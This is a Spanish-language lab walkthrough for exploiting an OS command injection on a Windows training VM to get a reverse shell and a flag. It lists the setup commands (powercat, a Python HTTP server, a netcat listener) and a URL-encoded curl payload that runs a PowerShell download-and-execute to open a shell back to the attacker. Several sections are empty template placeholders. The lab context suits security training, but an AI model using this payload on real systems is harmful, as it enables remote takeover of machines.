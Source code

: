 # Walk: Laboratorio OS command injection 

## Fecha: 21/01/2025
## Host: Windows
## IP: 192.168.192.189

---

## Objetivo
Follow the steps above and exploit the command injection vulnerability on VM #1 to obtain a reverse shell. 
Since the machine is not connected to the internet, you have to skip the step of cloning the repository from the beginning of this section. 
Find the flag on the Desktop for the Administrator user.

---
## Herramientas
1. tool - 1 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: Copiamos el Helper para el shell de windows en el directorio de trabajo.
	- **cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 . **
2. Paso 2: Ejecutamos el servidor python:
	- **python3 -m http.server 80**
3. Paso 3: Ejecutamos el socket de Netcat:
	- nc -lnvp 4444
4. Paso 4: Inyectamos el codigo codificado (URL):
	- ** curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F{MI_IP}%2Fpowercat.ps1%22)%3Bpowercat%20-c%20{MI_IP}%20-p%204444%20-e%20powershell' http://192.168.192.189:8000/archive**

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

### Todo:
- **Indagar mas en el proceso de identificacion y documentarlo.**
